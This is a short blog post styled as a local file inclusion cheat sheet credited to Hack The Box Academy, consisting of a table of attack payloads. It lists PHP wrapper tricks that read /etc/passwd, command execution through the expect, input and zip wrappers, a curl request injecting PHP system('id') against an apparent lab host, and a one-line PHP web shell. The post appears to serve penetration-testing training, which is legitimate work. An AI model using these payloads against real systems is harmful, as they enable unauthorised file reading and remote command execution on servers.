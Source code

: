 ```yaml
---
layout: post
title: Cheet Sheet LFI
autor: Lucho
categories: [Cheet Sheet]
---
```


![CheetSheet](https://c0.klipartz.com/pngpicture/778/35/sticker-png-cresson-lake-playhouse-cheating-logo-cheat-sheet-brand-trigonometry-cheat-sheet-ring-text-logo-number-cheating.png)

| **Command** | **Description** |
| --------------|-------------------|
| `php://filter/read=convert.base64-encode/resource=/etc/passwd` | PHP filter to convert file contents to Base64 |
| `php://filter/read=string.rot13/resource=/etc/passwd`   | PHP filter to convert file contents to ROT13 |
| `expect://id` | Command execution with PHP `Expect` wrapper |
| `curl -s -X POST --data "<?php system('id'); ?>" "http://134.209.184.216:30084/index.php?language=php://input"` | Using PHP `Input` wrapper for command execution |
| `zip://malicious.zip%23exec.php&cmd=id` | Command execution with the PHP `Zip` wrapper |
| `<?php system($_GET['cmd']); ?>` | PHP web shell file contents (i.e., shell.php) |

<br>

**By [Academy Hack The Box](https://academy.hackthebox.eu/)**